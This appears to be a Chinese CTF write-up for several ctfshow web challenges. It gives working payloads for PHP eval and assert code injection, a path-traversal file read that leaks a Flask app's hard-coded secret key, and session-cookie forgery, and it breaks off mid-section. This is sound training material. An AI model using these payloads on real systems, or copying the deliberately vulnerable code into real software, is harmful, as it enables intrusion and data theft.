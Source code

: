 ## Web
### Web签到

```php
<?php  
/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2022-11-10 17:20:38
# @Last Modified by:   h1xa
# @Last Modified time: 2022-11-11 09:38:59
# @email: h1xa@ctfer.com
# @link: https://ctfer.com  
*/

error_reporting(0);
highlight_file(__FILE__);
  
eval($_REQUEST[$_GET[$_POST[$_COOKIE['CTFshow-QQ群:']]]][6][0][7][5][8][0][9][4][4]);
```

payload:
- GET: `?g=r&r[6][0][7][5][8][0][9][4][4]=system("cat /f1agaaa");`
- POST: `p=g`
- Cookie: `CTFshow-QQ群:=p`

![](attachments/Pasted%20image%2020230405093908.png)


### web2 c0me_t0_s1gn

![](attachments/Pasted%20image%2020230405094027.png)

查看源代码

![](attachments/Pasted%20image%2020230405094540.png)

半截flag  `ctfshow{We1c0me_`

看起来js函数比较复杂，但是会发现有这样一个函数，直觉上来讲，引用了几乎所有的函数和加密相关的key，结合前面的控制台的提示，在控制台尝试运行

![](attachments/Pasted%20image%2020230405094840.png)

事实上进控制台就有提示了

![](attachments/Pasted%20image%2020230405095109.png)

flag： `ctfshow{We1c0me_t0_jo1n_u3_!}`

### 我的眼里只有$

```php
<?php  
  
/*  
# -*- coding: utf-8 -*-  
# @Author: h1xa  
# @Date:   2022-11-10 17:20:38  
# @Last Modified by:   h1xa  
# @Last Modified time: 2022-11-11 08:21:54  
# @email: h1xa@ctfer.com  
# @link: https://ctfer.com  
  
*/  
  
  
error_reporting(0);  
extract($_POST);  
eval($$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$_);  
highlight_file(__FILE__);
```

这个形式的话想要传参就要造一层一层的参数，参数越来越长，但是相同位置需要一样

```PHP
_=__&__=___&___=____&____=_____&_____=______&______=_______&_______=________&________=_________&_________=__________&__________=___________&___________=____________&____________=_____________&_____________=______________&______________=_______________&_______________=________________&________________=_________________&_________________=__________________&__________________=___________________&___________________=____________________&____________________=_____________________&_____________________=______________________&______________________=_______________________&_______________________=________________________&________________________=_________________________&_________________________=__________________________&__________________________=___________________________&___________________________=____________________________&____________________________=_____________________________&_____________________________=______________________________&______________________________=_______________________________&_______________________________=________________________________&________________________________=_________________________________&_________________________________=__________________________________&__________________________________=___________________________________&___________________________________=____________________________________&____________________________________=eval($_GET[1]);
```

![](attachments/Pasted%20image%2020230405101507.png)


### 抽老婆
抽老婆之后有download感觉这里可以做文件读取

![](attachments/Pasted%20image%2020230405101629.png)

结合session

![](attachments/Pasted%20image%2020230405102152.png)

能够看的出来是flask的session，感觉考点可能是session伪造

先读/app/app.py,出现报错，发现是路径不对

![](attachments/Pasted%20image%2020230405102351.png)

目录穿越 `/download?file=../../../../../app/app.py`

```python
# !/usr/bin/env python
# -*-coding:utf-8 -*-

"""
# File       : app.py
# Time       ：2022/11/07 09:16
# Author     ：g4_simon
# version    ：python 3.9.7
# Description：抽老婆，哇偶~
"""

from flask import *
import os
import random
from flag import flag

#初始化全局变量
app = Flask(__name__)
app.config['SECRET_KEY'] = 'tanji_is_A_boy_Yooooooooooooooooooooo!'

@app.route('/', methods=['GET'])
def index():  
    return render_template('index.html')


@app.route('/getwifi', methods=['GET'])
def getwifi():
    session['isadmin']=False
    wifi=random.choice(os.listdir('static/img'))
    session['current_wifi']=wifi
    return render_template('getwifi.html',wifi=wifi)



@app.route('/download', methods=['GET'])
def source(): 
    filename=request.args.get('file')
    if 'flag' in filename:
        return jsonify({"msg":"你想干什么？"})
    else:
        return send_file('static/img/'+filename,as_attachment=True)


@app.route('/secret_path_U_never_know',methods=['GET'])
def getflag():
    if session['isadmin']:
        return jsonify({"msg":flag})
    else:
        return jsonify({"msg":"你怎么知道这个路径的？不过还好我有身份验证"})



if __name__ == '__main__':
    app.run(host='0.0.0.0',port=80,debug=True)

```

解密
![](attachments/Pasted%20image%2020230405103208.png)

伪造admin

![](attachments/Pasted%20image%2020230405103559.png)

访问路径

![](attachments/Pasted%20image%2020230405103539.png)

### 一言既出
```php
<?php  
highlight_file(__FILE__);   
include "flag.php";    
if (isset($_GET['num'])){  
    if ($_GET['num'] == 114514){        
	    assert("intval($_GET[num])==1919810") or die("一言既出，驷马难追!");  
        echo $flag;  
    }   
}
```

其实assert中是一个字符串只需要使assert为true或者在assert中完成命令执行就可以

#### 命令执行
